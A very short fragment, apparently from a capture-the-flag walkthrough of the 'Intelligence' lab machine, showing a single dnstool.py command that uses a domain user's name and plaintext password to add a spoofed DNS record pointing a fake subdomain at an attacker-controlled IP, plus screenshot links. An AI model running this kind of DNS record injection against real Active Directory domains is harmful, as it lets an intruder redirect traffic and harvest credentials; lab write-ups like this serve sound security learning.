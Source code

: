 # dnstool

	python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -r webfakedomain.intelligence.htb --data 10.10.114.179 10.10.10.248

![image](https://user-images.githubusercontent.com/66146701/125056453-b8f6f880-e054-11eb-86be-1715c99a1e2a.png)

